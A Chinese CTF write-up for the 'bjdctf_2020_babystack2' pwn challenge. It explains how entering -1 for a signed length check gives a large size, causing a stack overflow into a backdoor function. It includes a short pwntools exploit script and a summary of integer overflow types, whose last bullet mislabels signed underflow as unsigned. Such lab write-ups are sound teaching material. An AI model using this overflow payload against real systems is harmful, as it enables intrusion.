




## bjdctf_2020_babystack2



经典开局先看看保护



这里还是经典的nx保护开启

经典看汇编



这里经典看到了一个整数溢出并且在函数文档中发现了一个后门函数



因此这里的思路就是进行一个整数溢出而这里整数溢出发现当有符号nbytes参数大于10后会直接退出

而这里整数溢出发现有3中方法1.回绕，2.截断，3.溢出

因此我们输入-1时就会变成0xffffffff可以得到一个打容量

因此我们这里就可以使用栈溢出来进入后门函数中

exp：

```python
from pwn import*
io = remote("node5.buuoj.cn",29390)
io.sendlineafter("Please input the length of your name:",'-1')
payload = b'a'*(0x10+8)+p64(0x0400726)
io.sendline(payload)
io.interactive()
```

---

### 总结

关于整数的异常情况主要有三种：

1. 溢出，只有有符号数才会发生溢出。有符号数的最高位表示符号，在两正或两负相加时，有可能改变符号位的值，产生溢出。`溢出标志OF`可检测有符号数的溢出；
2. 回绕，无符号数0减1时会变成最大的数，如1字节的无符号数会变为255，而255加1会变成最小数0。`进位标志CF`可检测无符号数的回绕；
3. 截断，将一个较大宽度的数存入一个宽度小的操作数中，`高位发生截断`。

或者说计算机中有4种溢出情况，以32位整数为例。

- 无符号上溢：无符号数0xFFFFFFFF加1变为0的情况。
- 无符号下溢：无符号数0减去1变为0xFFFFFFFF的情况。
- 有符号上溢：有符号数正数0x7FFFFFFF加1变为负数0x80000000，即十进制-2147483648的情况。
- 无符号下溢：有符号负数0x80000000减去1变为正数0x7FFFFFFF的情况。